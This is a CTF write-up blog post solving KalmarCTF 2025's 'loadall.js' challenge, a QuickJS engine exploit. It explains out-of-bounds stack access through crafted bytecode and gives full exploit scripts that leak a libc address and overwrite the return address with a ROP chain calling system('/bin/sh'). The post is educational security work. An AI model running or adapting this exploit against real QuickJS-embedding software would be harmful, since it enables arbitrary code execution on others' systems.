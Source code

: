 ```yaml
---
title: "kalmar 2025: loadall.js"
description: "My brief solution for the loadall.js challenge"
summary: "kalmar 2025: loadall.js"
categories: ["Writeup"]
tags: ["Pwn"]
#externalUrl: ""
date: 2025-03-10
draft: false
authors:
  - Shin24
---
```


It's been sometime since I last wrote something on my blog, despite playing lots of CTF, I hardly have time to write. Last sunday, I play kalmar CTF with idek, but because I also play pico so I didn't have time to look on kalmar, before the CTF ends I decided to try some pwn and I was able to solve 1 pwn, this post will be my brief solution for `loadall.js`, a quickJS JavaScript Engine exploit challenge

## Summary

So in this challenge we are given the ability to run QuickJS bytecode directly via a custom function named `loadall`

![image](https://github.com/user-attachments/assets/9a4a3179-3533-4a72-9790-3233ca450095)

The problem is straightforward, when we write JS code, opcodes are emitted by the engine, everything work as expected, but when you are given the power to emit arbitrary bytecodes of your choosing, you may break the way the engine works. With that in mind, I look through the opcode handlers, and pretty quickly found some OOB read/write on stack via `get_loc`, `set_loc`, `get_arg`, `set_arg`, and then you can also incre/decrese the stack pointer `sp` so much that it overwrite all the stack frame.

![image](https://github.com/user-attachments/assets/2afadb21-886b-4750-868a-1aaf6f91f6a1)

so at this point I just have to figure out a way to escalate all of this to control IP.

## QuickJS internal

So each stack entry is a `JSValue`, the `+0` member is the value, the `+8` member is the tag, tag is the indication of what type that `JSValue` is, this is important for the exploitation process, keep it in mind. 

![image](https://github.com/user-attachments/assets/6363c512-90fd-484a-9fa1-df9cd8b26ef6)

## Exploitation

You may think that we have OOB read, so just look for some stack ptr to leak libc/heap or something, well it doesn't work like that. If we want to leak something, we will align the `u` of `JSValue` with that ptr, but then we have to ensure that the tag (a.k.a the next `+8`) is a valid tag, we can search for some places that `u` is a ptr and tag is a null so that QuickJS treat it as a number, but most numbers in QuickJS is 32 bit, so we won't be able to leak the full address, and there're nearly no place that has a valid float64 tag (`0x7`). So the idea is that because we have several OOB, we can use the `set_loc` OOB to overwrite the address of `arg_buf` to an stack address that is not 16-bit aligned, then use it to write the tag to float, and then use the OOB read in `get_loc` to read the value

![image](https://github.com/user-attachments/assets/b1d8cfab-d9ef-40a6-936f-847ab7e6c3ce)

So in above, for example the stack ptr `0x7ffd03c31020` is 16-bit aligned, but hold a pointer that is not 16-bit aligned, we can read from that location and write it to `var_buf`, we can now write to any location that is not 16-bit aligned with `set_arg`. 

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
```

The rest is simple, just use those primitives to overwrite the return address and ROP

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
system = libc + 312464n
pop_rdi = libc + 0x00000000000277e5n
sh = libc + 0x196031n

loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 38/*byte_code_len*/, 0/*local_count*/, OP_get_loc, 20, 0, OP_set_loc, 149, 0, OP_push_const, 0, 0, 0, 0, OP_set_arg, 134, 0, OP_push_const, 1, 0, 0, 0, OP_set_loc, 160, 0, OP_push_const, 3, 0, 0, 0, OP_set_arg, 135, 0, OP_push_const, 2, 0, 0, 0, OP_set_loc, 161, 0, 6/*BC_TAG_FLOAT64*/, parseInt(pop_rdi & 0xffn), parseInt((pop_rdi >> 8n) & 0xffn), parseInt((pop_rdi >> 16n) & 0xffn), parseInt((pop_rdi >> 24n) & 0xffn), parseInt((pop_rdi >> 32n) & 0xffn), parseInt((pop_rdi >> 40n) & 0xffn), parseInt((pop_rdi >> 48n) & 0xffn), parseInt((pop_rdi >> 56n) & 0xffn), 6/*BC_TAG_FLOAT64*/, parseInt(sh & 0xffn), parseInt((sh >> 8n) & 0xffn), parseInt((sh >> 16n) & 0xffn), parseInt((sh >> 24n) & 0xffn), parseInt((sh >> 32n) & 0xffn), parseInt((sh >> 40n) & 0xffn), parseInt((sh >> 48n) & 0xffn), parseInt((sh >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt(system & 0xffn), parseInt((system >> 8n) & 0xffn), parseInt((system >> 16n) & 0xffn), parseInt((system >> 24n) & 0xffn), parseInt((system >> 32n) & 0xffn), parseInt((system >> 40n) & 0xffn), parseInt((system >> 48n) & 0xffn), parseInt((system >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt((pop_rdi + 1n) & 0xffn), parseInt(((pop_rdi + 1n) >> 8n) & 0xffn), parseInt(((pop_rdi + 1n) >> 16n) & 0xffn), parseInt(((pop_rdi + 1n) >> 24n) & 0xffn), parseInt(((pop_rdi + 1n) >> 32n) & 0xffn), parseInt(((pop_rdi + 1n) >> 40n) & 0xffn), parseInt(((pop_rdi + 1n) >> 48n) & 0xffn), parseInt(((pop_rdi + 1n) >> 56n) & 0xffn),1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)
//EOF
```

to store that addresses, I stored them in `b->cpool` and load them using `OP_push_const` 

## Final thoughts 

The challenge is not hard, only if we do it this way, according to the challenge's author, the intended solution is more complex

![image](https://github.com/user-attachments/assets/4cab211e-c11a-46b1-a710-9158359030df)

About the heap part, I also tried it that way, by allocating more constant on `b->cpool` you can control where the chunk will land on heap, it maybe more interesting to do a heap exploitation than a stack-based exploit I think. Thank you kalmar for bringing an enjoyable event.
